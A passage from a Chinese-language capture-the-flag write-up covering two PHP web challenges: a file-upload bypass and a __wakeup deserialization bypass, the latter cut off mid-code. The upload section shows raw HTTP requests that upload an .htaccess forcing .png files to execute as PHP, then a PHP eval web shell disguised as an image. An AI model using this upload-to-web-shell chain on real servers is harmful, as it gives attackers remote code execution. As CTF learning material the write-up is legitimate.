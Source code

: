 ### easyupload3.0

这次比上一次来说过滤了很多，改后缀名已经无法绕过了，那就试试改 `.htaccess` 罢。

```http
POST /upload.php HTTP/1.1

------WebKitFormBoundaryfmADKqeYk0Yxw93y
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/png

<FilesMatch "png">
setHandler application/x-httpd-php
</FilesMatch>
------WebKitFormBoundaryfmADKqeYk0Yxw93y
```

发现上传成功，那就上传个图片马罢。

```http
POST /upload.php HTTP/1.1

------WebKitFormBoundaryfmADKqeYk0Yxw93y
Content-Disposition: form-data; name="uploaded"; filename="1.png"
Content-Type: image/png

<?php eval($_POST[1]); ?>
------WebKitFormBoundaryfmADKqeYk0Yxw93y
```

上传成功后直接构造 Payload 如下

```
1=phpinfo();
```

F5 查找发现 flag 就在这里面。

### no\_wakeup

根据题目猜测是需要绕过反序列化时候的 `__wakeup()` 魔术方法。

```php
<?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{


        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
```
